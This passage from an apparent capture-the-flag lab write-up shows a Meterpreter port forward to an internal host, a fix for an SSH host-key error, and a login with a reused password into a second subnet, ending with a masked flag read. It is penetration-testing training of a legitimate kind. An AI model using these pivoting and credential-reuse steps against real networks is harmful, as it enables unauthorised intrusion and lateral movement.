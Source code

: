 ```
meterpreter > portfwd add -l 22 -p 22 -r 172.18.0.1
[*] Local TCP relay created: 0.0.0.0:22 >-> 172.18.0.1:22
meterpreter > portfwd list
0: 0.0.0.0:22 -> 172.18.0.1:22

1 total local port forwards.
meterpreter >
```

<br>

Since we tried to login into a different host with 127.0.0.1 identification, we get an error.

```
m3dsec@local:~/forbusinessreasons.thm$ ssh sysadmin@127.0.0.1
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the ECDSA key sent by the remote host is
SHA256:YWh6/YCN0RzHZZK5fdUZ2EB9I2CQSoW4XAZ5/V+CYUc.
Please contact your system administrator.
Add correct host key in /home/m3dsec/.ssh/known_hosts to get rid of this message.
Offending ECDSA key in /home/m3dsec/.ssh/known_hosts:9
  remove with:
  ssh-keygen -f "/home/m3dsec/.ssh/known_hosts" -R "127.0.0.1"
ECDSA host key for 127.0.0.1 has changed and you have requested strict checking.
Host key verification failed.
```

We can easily fix this problem by removing all keys belonging to that specified hostname, in our case 127.0.0.1
```
m3dsec@local:~/forbusinessreasons.thm$ ssh-keygen -f "/home/m3dsec/.ssh/known_hosts" -R "127.0.0.1"
# Host 127.0.0.1 found: line 9
/home/m3dsec/.ssh/known_hosts updated.
Original contents retained as /home/m3dsec/.ssh/known_hosts.old
```

SSH in with the same password, and get access to the 2nd subnet.
```
m3dsec@local:~/forbusinessreasons.thm$ ssh sysadmin@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:YWh6/YCN0RzHZZK5fdUZ2EB9I2CQSoW4XAZ5/V+CYUc.
Are you sure you want to continue connecting (yes/no/[fingerprint])
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
sysadmin@127.0.0.1's password: mil******
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

263 packages can be updated.
181 updates are security updates.


Last login: Sun Aug  9 15:30:13 2020 from 192.168.191.131
sysadmin@ubuntu:~$ id
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),122(docker)
sysadmin@ubuntu:~$ cat flag1.txt 
os******
```
